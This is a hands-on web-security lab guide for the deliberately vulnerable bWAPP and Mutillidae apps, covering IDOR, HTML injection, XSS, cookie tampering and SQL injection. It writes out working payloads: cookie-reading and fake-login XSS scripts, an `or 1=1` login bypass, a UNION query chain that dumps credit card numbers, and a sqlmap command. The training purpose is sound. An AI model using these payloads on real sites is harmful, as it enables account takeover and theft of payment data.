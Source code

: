 # Basic: Insecure direct object reference {.container-fluid}
## 1) [bWAPP/insecure_direct_object_ref_2.php](bWAPP/insecure_direct_object_ref_2.php)
- Using [mitmproxy](http://127.0.0.1:8081), modify the request/response associated with the link above and figure out how to pay less (or nothing) for the tickets - or even get reimbursed!

## 2) [bWAPP/smgmt_admin_portal.php](bWAPP/smgmt_admin_portal.php)
- Make sure security is set to low
- Look at the hint after visiting the page above and find out how to gain admin access
- Now set security to medium
- Use [mitmproxy](http://127.0.0.1:8081) to watch the traffic (requests and responses) and figure out how to gain admin access

# Basic: Injection {.container-fluid}
## 1) [bWAPP/htmli_post.php](bWAPP/htmli_post.php)
- Set security to low
- Using [mitmproxy](http://127.0.0.1:8081), inject simple HTML tags in the parameter values by following the steps below:
    * Watch the traffic generated by visiting the initial page, entering your name, and submitting the form. Notice that whatever you typed becomes visible on the page.
    * Now modify the applicable requests to inject some HTML tags. Notice the effect that has on the page.  
      e.g., `<h1>Firstname</h1> and <u>Lastname</u>`
- Try some XSS!  
  e.g., `<script>alert('Hello!');</script>`
  > XSS (Cross-site scripting) is an attack that allows for unauthorized modification of websites, theft of credentials and/or sessions, and many other scenarios depending on the web application. While these popups are conspicuous and harmless, a real attack would have real consequences and be invisible.
- Use XSS to look at your cookies. Cookies are a mechanism for the server to keep track of who's logged in.  
  e.g., `<script>alert(document.cookie);</script>`

## 2) [mutillidae/index.php?page=login.php](mutillidae/index.php?page=login.php)
- Click "Toggle Security" until it's set to "Client-side Security"
- Type a single quote (') in the password field and take a look at the error message that comes back. You will have to use an HTTP proxy to get around this.
- Using [mitmproxy](http://127.0.0.1:8081), bypass the client-side validation by intercepting a valid request (e.g., where the username and password are just letters), then modifying the values within the intercepted request so that your single quote is added to the password parameter. Take a look at the error now; it should be a raw error from the mysql database.
  > Note this section of the error (this will vary if your single quote was in the username field):  
  > `Query: SELECT * FROM accounts WHERE username='' AND password='''`
  >
  > What you must do is ensure that the WHERE clause always be true. Try this in the username field (note the space after "--"):  
  > `test' or 1=1; -- `
  >
  > With that, the query becomes:  
  > `SELECT * FROM accounts WHERE username='test' or 1=1; -- ' AND password='''`
  >
  > **Here's the trick: two dashes in SQL turn everything after them into a harmless comment, meaning the password check won't even execute!**
- You should be logged in as admin! Logout and try some others; e.g., 1=2, 'a'='a', etc.


# Intermediate: Insecure direct object reference {.container-fluid}
## 1) [mutillidae/robots.txt](mutillidae/robots.txt)
- Take a look at the response from that page. Do you see anything interesting?
  > This file, robots.txt, is used by many websites to handle how web crawlers (such as Google's indexing engine) will crawl them.
  >
  > Usually, it contains a list of directories where the crawler is not allowed to go - which immediately becomes a list of directories for attackers to visit!
- Visit the [mutillidae/passwords/](mutillidae/passwords/) page you found listed under `robots.txt` and open the containing `accounts.txt` file!

## 2) [mutillidae/index.php?page=register.php](mutillidae/index.php?page=register.php)
- Click "Toggle Security" until it's set to "Hosed"
- Create a new user account, then proceed to log in with that account.
- Using [mitmproxy](http://127.0.0.1:8081), intercept the login request.
- Forward the request, and look at the intercepted response.
- Try logging in as admin by modifying the "uid" cookie on the response.

# Intermediate: Injection {.container-fluid}
## 1) [bWAPP/htmli_stored.php](bWAPP/htmli_stored.php)
- Before beginning, set security to low
- Post any comment you wish
- Using [mitmproxy](http://127.0.0.1:8081), find the response containing your comment. Take a look at the HTML table structure where your comment was added.
- Using HTML, try to impersonate another user by recreating the blog table structure
  > I've created a script and fake login page that you can use to simulate an XSS attack for stealing someone's session cookie (if that cookie is not properly protected).
  >
  > Take a look at the [script file](redirect.js). All it does is reset the victim's session, effectively logging them out, and then present a fake login page so they can "log back in". The error popup is just added for flavor.
- Inject the following payload as a blog comment:  
  `Hello!<script src="../redirect.js"></script>`
- You will see a (fake) pop-up page asking you to log in.
  > Feel free to enter any credentials, but if you click the button, you will have to clear your browser cookies to be able to use the bWAPP site again on account of what the script does.
  > However, if you do enter some credentials, you can see something cool (see next step).
- If this were a real attack, an attacker would have stolen the credentials, which would have been logged in the attacker's own web server logs. To see the logs:
    * Log in directly into the VM
    * Type `sudo grep login= /var/log/apache2/access.log` and hit Enter
    * See the credentials you entered? This information could be on a remote, attacker-controlled server if this were a real attack.


# Challenge: Retrieve credit card numbers via SQL injection {.container-fluid}
## [mutillidae/index.php?page=user-info.php](mutillidae/index.php?page=user-info.php)

### Tips:
- The database table that the page is using has 7 columns (this is the reason for the 1,2,3,4,5,6,7 below)
- You can use `information_schema.tables` and `information_schema.columns` to gather information
- Using `where table_schema=database()` as a condition will restrict your results to the database being used by the application (rather than all DBs in the system)
- Use `concat(table_name)` and `concat(column_name)` to learn table/column names
- Start with this (note the space after "--"):  
  `' union select 1,2,3,4,5,6,7 from information_schema.tables where table_schema=database(); -- `

### Answers {#answers .collapse}
```
' union select 1,2,3,4,5,6,7 from information_schema.tables where table_schema=database(); -- 
' union select 1,concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database(); -- 
' union select 1,concat(table_name),concat(column_name),4,5,6,7 from information_schema.columns where table_name='credit_cards'; -- 
' union select 1,ccnumber,ccv,expiration,5,6,7 from credit_cards; -- 
```
Alternatively, you can use a popular SQL injection tool called `sqlmap` to find that information automatically.

Log in directly to the VM, type the following command, and keep hitting Enter for every prompt:  
`sqlmap -r ~/.req --flush-session --fresh-queries --batch --dbms mysql --technique U -p username -v 3 --search -T credit`

###
<button class="btn btn-small btn-danger" data-toggle="collapse" data-target="#answers"><span>Show Answers</span></button>

